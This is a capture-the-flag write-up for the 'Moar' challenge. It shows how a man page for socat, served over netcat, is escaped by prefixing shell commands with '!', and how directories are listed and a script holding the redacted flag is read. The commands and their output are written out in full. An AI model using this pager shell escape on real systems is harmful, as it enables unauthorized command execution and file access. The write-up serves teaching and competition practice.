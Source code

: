 # Moar

## Description
Finding yourself on the Foobanizer9000, a computer built by 9000 foos, this computer is so complicated luckily it serves manual pages through a network service. As the old saying goes, everything you need is in the manual.

$nc moar.ctfcompetition.com 1337
## Solution
The netcat from the description takes us to a manual of the utility *socat*. While within a man in Linux, we can still run shell commands by prepending a "!" to our commands. 
Looking in home/moar reveals a shellcode program with some interesting content.

```
$ nc moar.ctfcompetition.com 1337
socat(1)                                                              socat(1)

NAME
       socat - Multipurpose relay (SOcket CAT)

SYNOPSIS
       socat [options] <address> <address>
       socat -V
       socat -h[h[h]] | -?[?[?]]
       filan
       procan

DESCRIPTION
       Socat  is  a  command  line based utility that establishes two bidirec-
       tional byte streams  and  transfers  data  between  them.  Because  the
       streams  can be constructed from a large set of different types of data
       sinks and sources (see address types),  and  because  lots  of  address
       options  may be applied to the streams, socat can be used for many dif-
       ferent purposes.

       Filan is a utility  that  prints  information  about  its  active  file
       descriptors  to  stdout.  It  has been written for debugging socat, but
       might be useful for other purposes too. Use the -h option to find  more
 Manual page socat(1) line 1 (press h for help or q to quit)

!ls
bin   dev  home  lib64	mnt  proc  run	 srv  tmp  var
boot  etc  lib	 media	opt  root  sbin  sys  usr
!done  (press RETURN)

!ls home
moar
!done  (press RETURN)!ls home/moar

!ls home/moar
disable_dmz.sh
!done  (press RETURN)!cat home/moar/disable_dmz.sh

!cat home/moar/disable_dmz.sh
#!/bin/sh
echo 'Disabling DMZ using password CTF{...}'
echo CTF{...} > /dev/dmz
!done  (press RETURN)
```

## Useful Resources
[Shebang](https://en.wikipedia.org/wiki/Shebang_(Unix))
